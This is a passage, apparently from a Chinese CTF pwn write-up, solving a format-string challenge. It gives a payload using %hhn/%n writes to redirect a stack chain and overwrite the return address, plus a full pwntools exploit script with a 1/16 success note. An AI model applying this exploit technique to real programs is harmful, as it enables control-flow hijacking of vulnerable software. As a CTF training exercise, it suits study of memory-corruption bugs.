 ```bash
pl='%'+str(0x68)+'c%18$hhn'
pl+='%'+str(0x40123d-0x68)+'c%22$n'
sl(pl)
```

[![](assets/1708654729-8a5e5eaececa734ebf28c9c0809553d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012311-b8e7b016-d014-1.png)  
先去修改个栈地址，然后利用 rbp 处的链子去修改返回地址，不过这里概率是 1/16，因为栈地址倒数第二位有 16 种可能，调试的时候无法完全看到改后的位置，直接跑脚本就可以

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

def duan():
    gdb.attach(p)
    pause()
#duan()
ru('the shit is ezfmt, M3?\n')
pl='%'+str(0x68)+'c%18$hhn'
pl+='%'+str(0x40123d-0x68)+'c%22$n'
sl(pl)
#0x40123D
```